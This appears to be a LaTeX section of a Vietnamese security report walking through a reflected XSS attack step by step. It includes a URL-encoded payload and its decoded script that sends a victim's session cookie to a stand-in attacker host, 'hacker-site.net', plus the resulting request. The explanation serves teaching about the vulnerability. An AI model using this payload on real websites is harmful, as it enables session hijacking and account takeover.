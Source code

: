 \documentclass[../main-report.tex]{subfiles}
\begin{document}
\begin{enumerate}
\item Người dùng đăng nhập web và giả sử được gán session với cookie định danh sau:

\begin{lstlisting}
Set-Cookie: sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4
\end{lstlisting}

\item Bằng cách nào đó, hacker gửi được cho người dùng URL:
 
\begin{lstlisting}
http://example.com/name=%3Cscript%3Evar+i%3Dnew+Image%3B+i.src%3D%E2%80%9Dhttp%3A%2F%2Fhacker-site.net%2F%E2%80%9D%2Bdocument.cookie%3B%3C%2Fscript%3E
\end{lstlisting}

Giả sử \textbf{example.com} là website nạn nhân truy cập, \textbf{hacker-site.net} là trang của hacker tạo ra.

\item Nạn nhân truy cập đến URL trên.
\item Server phản hồi cho nạn nhân, kèm với dữ liệu có trong request (đoạn javascript của hacker).
\item Trình duyệt nạn nhân nhận phản hồi và thực thi đoạn javascript. Đoạn javascript mà hacker tạo ra thực tế như sau:

\begin{lstlisting}[language=HTML]
<script>var i=new Image; i.src="http://hacker-site.net/"+document.cookie;</script>
\end{lstlisting}

Dòng lệnh trên bản chất thực hiện request đến site của hacker với tham số là cookie người dùng:

\begin{lstlisting}
GET /sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4 HTTP/1.1
Host: hacker-site.net
\end{lstlisting}

\item Từ phía site của mình, hacker sẽ bắt được nội dung request trên và coi như session của người dùng đã bị chiếm. Đến lúc này, hacker có thể giả mạo với tư cách nạn nhân và thực hiện mọi quyền trên website mà nạn nhân có.
\end{enumerate}

Kịch bản khai thác trên được mô tả như hình \ref{fig:xss_reflect}.

\begin{figure}[ht!]
\centering\texttt{[image: xss-reflect]}
\caption{Kịch bản khai thác lỗ hổng Reflected \acrshort{xss}}
\label{fig:xss_reflect}
\end{figure}
\end{document}
